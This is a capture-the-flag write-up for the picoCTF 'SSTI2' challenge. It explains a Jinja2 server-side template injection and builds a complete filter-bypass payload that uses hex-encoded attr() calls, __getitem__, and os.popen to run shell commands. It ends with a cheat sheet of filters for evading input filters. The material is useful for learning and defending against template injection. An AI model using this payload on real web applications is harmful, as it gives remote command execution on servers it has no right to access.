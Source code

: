 ## 📝 SSTI2 Challenge Walkthrough

In this challenge, we’re dealing with a **Server-Side Template Injection (SSTI)** vulnerability—but with heavy input filtering.

---

### Step 1: Confirm SSTI

We start by testing whether SSTI is possible:

```jinja2
{{ 7*7 }}
```

It returns 49, so SSTI is enabled.

---

### Step 2: Bypassing Keyword Blacklisting

Trying a textbook payload:

```jinja2
{{ "".__class__.__base__.__subclasses__() }}
```

...results in an error: “stop trying to break me”.

This means keywords like `class`, `base`, `subclasses`, and even `""` (an empty string) are blacklisted.

I tried using a custom string like `"idk"` instead of `""`:

```jinja2
{{ idk.__class__ }}
```

...but even that failed due to the sanitization.

Attempts like:
- Unicode/hex encoding `__class__`
- URL-encoding newline characters
- POSTing a newline

...all failed due to filters and sandbox constraints.

---

### Step 3: Exploring Filters & `attr`

I noticed that:

```jinja2
{{ idk | }}
```

...does not trigger an error, meaning filters are allowed.

So what are filters in Flask Jinja2?

Filters are built-in functions in Jinja2 that let you modify or format data before it's rendered in the template. They're used inside double curly braces like this:

```jinja2
{{ variable | filter_name }}
```

You can even pass arguments to them:

```jinja2
{{ variable | filter_name(arg1, arg2) }}
```

They’re super helpful for cleaning up, transforming, or accessing data without writing any Python code in your backend. For example:
- `{{ "HELLO" | lower }}` becomes `"hello"`
- `{{ mylist | length }}` gives the number of items
- `{{ user | default("Guest") }}` shows `"Guest"` if `user` is undefined

In this challenge, filters aren’t just for formatting — they’re a way to sneak around input filters. That’s where `attr()` came in clutch: it let us access blocked attributes like `__class__` using their string names (which we hex-encoded to avoid detection).

So I dug into filter functions and found the holy grail: `attr`.

> `attr` allows you to dynamically access an attribute of an object using a string.

But directly accessing blacklisted attributes like `__class__` still failed:

```jinja2
{{ idk | attr("__class__") }}
```

So I hex-encoded it:

```jinja2
{{ idk | attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f') }}
```

Success! We got the class.

I continued by hex-encoding the rest of the chain:

```jinja2
{{ idk
  | attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f') # __class__ hex encoded
  | attr('\x5f\x5f\x62\x61\x73\x65\x5f\x5f') # __base__ hex encoded
  | attr('\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f')() # _subclasses__ hex encoded
}}
```

---

### Step 4: Finding the `warnings.catch_warnings` Class

In the output of `__subclasses__()`, I looked for `warnings.catch_warnings` (a known trick, since its `__init__` uses `sys.modules` which gives us access to the os module --> open a shell).

You can look for its existence using chatgpt or deepseek or another method that i strongly recommend since ai never gave me the right index 😅, is to use python and here is what i always use:

```python
# something.txt should contain all the subclasses
with open('something.txt') as p:
    check = p.read()
for index,value in enumerate(check.split(',')):
    if "<class 'warnings.catch_warnings'>" in value:
        print(index)
```

It existed! At index 221.

But this didn't work:

```jinja2
(...subclasses__())[221]
```

Why? Because:
- `[]` is blacklisted
- Calling functions (`()`) often triggers errors in sandboxed environments

---

### 💡 Step 5: Bypassing with `__getitem__`

Instead of using `[]`, I used:

```jinja2
| attr('__getitem__')(221)
```

That works because:
> `__getitem__` lets us simulate `obj[221]` without using square brackets.
in Jinja2, the attr filter (also called attribute) is used to dynamically access an attribute of an object by name (as a string). It’s useful when the attribute name is stored in a variable or constructed dynamically.


Here’s the full, chained payload:

```jinja2
{{ idk
  | attr('\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f') # __class__ hex encoded
  | attr('\x5f\x5f\x62\x61\x73\x65\x5f\x5f') # __base__ hex encoded
  | attr('\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f')() # _subclasses__ hex encoded, we can't index/call the warnings subclass so we use getitem
  | attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')(221) # __getitem__ hex encoded and we get the 221th item which is the warning subclass
  | attr('\x5f\x5f\x69\x6e\x69\x74\x5f\x5f') # __init__ hex encoded to call the init method
  | attr('\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f') # __globals__ to access the global variable, we can't access the sys variable directly here so we use getitem again
  | attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('sys') #  __getitem__ hex encoded and we get the sys variable
  | attr('modules') # we access its modules (which contains os), we can't access the os module directly because we're calling a function and calling a function triggers an error
  | attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('os') # so we use getitem again!, __getitem__ hex encoded
  | attr('popen')('cat flag') # accessing the popen function to opne a shell and execute "cat flag" (i executed ls first and then when i saw the flag.txt i cat'ed it)
  | attr('read')() # and here so we can see the output of the popen
}}
```

---

### Step 6: Get the Flag

Paste the full payload into the form input, and...

BOOM — you get the flag:

```bash
picoCTF{... redacted ...}
```

---

## 🧰 Useful Jinja2 Filters for SSTI & Exploitation

Here’s a mini cheatsheet of filters that are particularly useful in SSTI/CTF contexts:

| Filter         | Purpose                                         |
|----------------|-------------------------------------------------|
| `attr()`       | Dynamically access attributes like `__class__`  |
| `e` / `escape` | Escape HTML (sometimes bypasses filters)        |
| `safe`         | Mark string as safe (no escaping)               |
| `default()`    | Provide fallback values to avoid breaking logic |
| `length`       | Get length of iterable (can test logic flow)    |
| `join`         | Concatenate strings from a list (may help with payload shaping) |
| `replace`      | Modify strings mid-template (bypass filters)    |

---

> Just look at that payload... it’s a masterpiece.

> If you’ve reached this point and understood the entire chain — 🫡. 

